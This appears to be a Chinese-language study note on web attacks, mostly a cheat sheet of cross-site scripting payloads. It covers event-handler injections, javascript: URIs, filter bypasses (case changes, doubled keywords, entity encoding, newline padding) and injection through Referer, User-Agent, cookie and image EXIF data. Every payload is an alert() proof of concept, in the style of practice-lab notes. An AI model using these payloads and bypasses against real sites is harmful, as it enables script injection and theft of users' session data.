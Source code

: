 常见攻击方式：

1注入攻击

2上传漏洞攻击

3跨站攻击（https://book.2cto.com/201506/52201.html）
跨站攻击最常见的方式是通过窃取cookie或欺骗打开木马网页等，取得重要的资料

4数据库入侵

 


闭合引号   ```value="">"       value="">onmouseover="alert(1)"```


onmouseover="  //当鼠标进入div元素时触发

onmouseenter=alert() //当鼠标进入div元素时触发,在子元素上也会触发(p 和 span)

onclick=alert() //鼠标点击时就会触发

onchange=alert() //在域的内容改变时发生

oninput=alert() //在用户输入时触发

onmouseover=alert()//鼠标移动到就会触发


```<iframe src=javascript:alert('xss')></iframe>```


```<a href=javascript:alert(1)>test</a>```


大小写转换绕过 ```<a Href="javascript:alert('1')">try</a>```

```<a Href="java&#115;cript:alert('1')">try</a>```


php str_replace()   双写绕过  ```<a hhrefref=javasscriptcript:alert(1)>test</a>```

Unicode编码转换  ```javasc&#114;ipt:alert('1')```  (不可转换标签属性)

```javascript:alert(1)/*http://www*/```     加上注释是为了不影响执行
```javascript:alert(1)//http://www*/```     加上注释是为了不影响执行

```keyword=<script>alert(1)</script>&t_sort="onmouseover="alert(1)"type="txt"```

插入 type="txt" 会忽略后面的type="hidden"


$str11=$_SERVER['HTTP_REFERER']
在php中，可以使用$_SERVER[‘HTTP_REFERER’]来获取HTTP_REFERER信息

引导用户代理到当前页的前一页的地址（如果存在）。由 user agent 设置决定。

并不是所有的用户代理都会设置该项，有的还提供了修改HTTP_REFERER 的功能。

简言之，该值并不可信,可用hackbar修改，如图

![](01.PNG)


$str11=$_SERVER['HTTP_USER_AGENT']
$str11=$_COOKIE["user"]

[图虫EXIF查看器alpha版](https://exif.tuchong.com/)   查看exif信息的网站
修改图片的exif信息，上传到相应网站，然后达到执行XSS的效果

```<img src=x onerror=alert(1)>```

ng-include  在 angular.js 包含外部文件

onerror 事件： 会在文档或图像加载过程中发生错误时被触发。

在装载文档或图像的过程中如果发生了错误，就会调用该事件句柄。

支持该事件的 HTML 标签：```<img>, <object>, <style>```

支持该事件的 JavaScript 对象：window, image

空格绕过 ```<img%0a%0dsrc=x%0a%0donerror=alert(1)>```






